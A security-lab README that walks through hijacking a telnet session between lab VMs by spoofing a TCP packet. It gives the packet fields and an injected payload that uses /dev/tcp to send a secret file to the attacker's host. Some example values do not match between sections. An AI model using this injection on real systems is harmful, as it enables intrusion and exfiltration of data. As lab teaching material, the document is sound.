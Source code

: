 ## TCP Session Hijacking Attack

### Requirements 

In this lab, we will hijack a telnet session (between the victim client and the victim server) and inject a malicious command. In particular, the attacker wants to see the content of a secret file (stored on the server). At the end of this lab, if the attack is successful, the content of this secret file will be displayed in the attacker's terminal window.

### Setup

3 Linux VMs. VM1 as the victim (telnet client); VM2 as the telnet server; VM3 as the attacker. The 3 VMs reside in the same network. This README uses the following IP addresses.

| VM Name     | IP Address  |
|-------------|-------------|
| VM1         | 10.0.2.4    |
| VM2         | 10.0.2.5    |
| VM3         | 10.0.2.6    |

### Steps

1. let the client connect to the server using telnet.

![alt text](lab-tcp-hijack-telnet.png "Lab tcp session hijacking telnet")

2. the client uses this *echo* command to create a secret file on the server.

![alt text](lab-tcp-hijack-echo.png "Lab tcp session hijacking echo")

3. the client uses the *cat* command to confirm the file now exists:
![alt text](lab-tcp-hijack-cat.png "Lab tcp session hijacking cat")

3. let the attacker start monitoring network traffic using wireshark.

![alt text](lab-tcp-hijack-start-wireshark.png "Lab tcp hijack start wireshark")
![alt text](lab-tcp-hijack-start-capture.png "Lab tcp hijack start capture")

4. client produces some telnet packets. (any telnet packets, you can just type a command like *ls*).

![alt text](lab-tcp-hijack-ls.png "Lab tcp hijack ls command")

5. attacker stops wireshark capturing, and navigates to the latest packet sent from the client to the server.

This image shows the ip addresses, port numbers, sequence number, acknowledgment number.
![alt text](lab-tcp-hijack-capture1.png "Lab tcp hijack latest tcp capture - part 1")

This image shows the window size - still the same packet.
![alt text](lab-tcp-hijack-capture2.png "Lab tcp hijack latest tcp capture - part 2")

This image shows the ttl attribute - still the same packet.
![alt text](lab-tcp-hijack-capture3.png "Lab tcp hijack latest tcp capture - part 3")

6. the above packet provides the information which the attacker needs to know in order to perform the tcp reset attack. now, the attacker, mimicking the client, only needs to send one single regular TCP packet to the server. To send a regular TCP packet, a python script named send_tcp.py is provided. When running this script, it will send a TCP packet to a destination. You need to change the script so that the following 9 lines match with your situation.

```console
source_ip = "10.0.2.4"
destination_ip = "10.0.2.5"
source_port = 55202
destination_port = 23
sequence_num = 834051386
acknowledgment_num = 704733961
ttl_value = 64
window_size = 501
tcp_payload = "\rcat /home/seed/secret > /dev/tcp/10.0.2.6/9090\r"
```

**Note**: because the attacker is mimicking the client, thus the source ip address needs to be the client's IP address; from the captured latest packet, we can see the sequence number is *2523450797*, the acknowledgment number is *311613137*; the source port (in this example) is 57502, the destination port is 23. the tcp window size (in this example) is 245, the time to live (ttl) value is 64. The tcp data we can use is: "0d20636174202f686f6d652f736565642f736563726574203e202f6465762f7463702f61747461636b65725f69702f39303930200d".

**Explanation**: why the tcp data is "0d20636174202f686f6d652f736565642f736563726574203e202f6465762f7463702f61747461636b65725f69702f39303930200d"? Because the telnet command we want to inject is: "cat /home/seed/secret > /dev/tcp/attacker_ip/9090", and we want this command to be sandwiched by two newline signs "\r", so that the command will not be concatenated with other random strings. assume the atacker's IP address is 172.16.77.130, then this is how we can convert this whole thing into hex:

![alt text](lab-tcp-hijack-command-to-hex.png "Lab tcp hijack - the tcp data")

Thus in this example, the netwox 40 command we are going to type is:
![alt text](lab-tcp-hijack-command.png "Lab tcp hijack - the netwox command")

**Explanation 2**: why the telnet command we want to inject is "cat /home/seed/secret > /dev/tcp/attacker_ip/9090". Because "cat /home/seed/secret" shows the content of the secret file, but this command will only display the content in the victim client's terminal window, not in the attacker's terminal window. This "cat /home/seed/secret > /dev/tcp/attacker_ip/9090" will redirect the output of the cat command into a tcp port 9090 at the attacker's ip address. Thus we come to our next step,

7. before pressing enter, the attacker needs to open another terminal window so that the attacker can listen on a port - we will choose port 9090.

![alt text](lab-tcp-hijack-listening.png "Lab tcp hijacking attack listening on port 9090")

- after pressing enter:
![alt text](lab-tcp-hijack-after-enter.png "Lab tcp hijacking attack after enter command")

7. once the attacker pressed enter to execute the above *netwox 40* command, if the attack is successful, the victim server's secret file will be displayed in the attacker's terminal window:

![alt text](lab-tcp-hijack-success.png "Lab tcp session hijacking attack successful")

This indicates that the attack is successful and concludes the lab.
